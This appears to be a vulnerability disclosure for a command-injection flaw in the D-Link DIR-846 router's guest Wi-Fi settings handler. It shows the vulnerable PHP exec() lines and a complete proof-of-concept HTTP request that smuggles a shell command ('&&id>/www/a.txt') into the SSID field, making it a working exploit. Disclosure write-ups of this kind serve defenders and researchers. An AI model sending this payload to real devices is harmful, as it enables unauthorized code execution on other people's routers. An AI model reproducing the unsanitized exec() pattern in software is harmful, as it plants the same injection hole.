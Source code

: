 ### Info of vulnerability
There is a remote RCE vulnerability in D-Link router on page /Guestwireless.html due to invalid sanitization, so attackers could execute arbitrary code. 

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-846(100A35)

### Detail of vulnerability
The first vulnerable code is in file /www/HNAP1/control/SetGuestWLanSettings.php
```
        ... ...
74      $unicode_2 = $option["wl(0).(1)_ssid"];
75      exec("ssid_code set G2B 3 ssid_tmp1 '" . $unicode_2 . "'");
76      $unicode_5 = $option["wl(1).(1)_ssid"];
77      exec("ssid_code set G5B 1 ssid_tmp2 '" . $unicode_5 . "'");


```
Attacker could trigger this vulnerability in this way:

![poc](https://github.com/dahua966/Routers-vuls/blob/master/DIR-846/poc.png)

Malicious Request:
```
POST http://192.168.0.1 /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Proxy-Connection: keep-alive
Content-Length: 351
Accept: application/json
Origin: http://192.168.0.1
HNAP_AUTH: 866164AB3A175C358A2F5A80F1BF591E 1571916427322
SOAPACTION: "http://purenetworks.com/HNAP1/SetGuestWLanSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Content-Type: application/json
Referer: http://192.168.0.1/Guestwireless.html?t=1571916385005
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: sid=eea33228-f58c-11e9-b614-df9bf19cb824; uid=sB1xQK5E; PrivateKey=57FB98B6CA565BFA093D27DB0A2E1A9F; PHPSESSID=a85e4817b1c1dddd548b245b41acc35b; timeout=5

{"SetGuestWLanSettings":{"wl(0).(1)_enable":"1","wl(0).(1)_local_access":"0","wl(0).(1)_local_access_timeout":"0","wl(0).(1)_ssid":"a&&id>/www/a.txt","wl(0).(1)_crypto":"none","wl(0).(1)_preshared_key":"SFFMdk9xSE4=","wl(1).(1)_enable":"0","wl(1).(1)_ssid":"D-Link_DIR-846_5G_Guest","wl(1).(1)_preshared_key":"SFFMdk9xSE4=","wl(1).(1)_crypto":"none"}}
```
You can see this:

![a.txt](https://github.com/dahua966/Routers-vuls/blob/master/DIR-846/id.png)

#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：

Zhen-hua Wang

En-Ze Wang

Wei Xie

